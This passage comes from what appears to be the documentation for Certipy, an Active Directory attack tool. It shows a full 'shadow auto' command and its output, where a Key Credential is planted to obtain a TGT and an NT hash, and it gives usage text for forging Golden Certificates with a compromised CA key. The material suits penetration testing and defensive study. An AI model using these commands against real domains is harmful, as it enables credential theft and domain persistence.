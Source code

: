 Certipy's `shadow` command has an `auto` action, which will add a new Key Credential to the target account, authenticate with the Key Credential to retrieve the NT hash and a TGT for the target, and finally restore the old Key Credential attribute.

```bash
$ certipy shadow auto 'corp.local/john:Passw0rd!@dc.corp.local' -account 'johnpc'
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Targeting user 'johnpc$'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '40d662ce-1112-042f-43cc-d14dc981c671'
[*] Adding Key Credential with device ID '40d662ce-1112-042f-43cc-d14dc981c671' to the Key Credentials for 'johnpc$'
[*] Successfully added Key Credential with device ID '40d662ce-1112-042f-43cc-d14dc981c671' to the Key Credentials for 'johnpc$'
[*] Authenticating as 'johnpc$' with the certificate
[*] Using principal: johnpc$@corp.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'johnpc.ccache'
[*] Trying to retrieve NT hash for 'johnpc$'
[*] Restoring the old Key Credentials for 'johnpc$'
[*] Successfully restored the old Key Credentials for 'johnpc$'
[*] NT hash for 'johnpc$': fc525c9683e8fe067095ba2ddc971889
```

This action is useful if you just want the NT hash or TGT for further authentication. It is possibly to manually add, authenticate, and delete the Key Credential, if desired. See the usage or [blog post](https://research.ifcr.dk/34d1c26f0dc6) for more information.

### Golden Certificates

Golden Certificates are certificates that are manually forged with a compromised CA's certificate and private key, just like Golden Tickets are forged with a compromised `krbtgt` account's NT hash.

```
Certipy v2.0.8 - by Oliver Lyak (ly4k)

usage: certipy forge [-h] -ca-pfx pfx/p12 file name -alt alternative UPN [-template pfx/p12 file name] [-subject subject] [-crl ldap path] [-serial serial number] [-debug] [-out output file name]

optional arguments:
  -h, --help            show this help message and exit
  -ca-pfx pfx/p12 file name
                        Path to CA certificate
  -alt alternative UPN
  -template pfx/p12 file name
                        Path to template certificate
  -subject subject      Subject to include certificate
  -crl ldap path        ldap path to a CRL
  -serial serial number
  -debug                Turn debug output on

output options:
  -out output file name
```
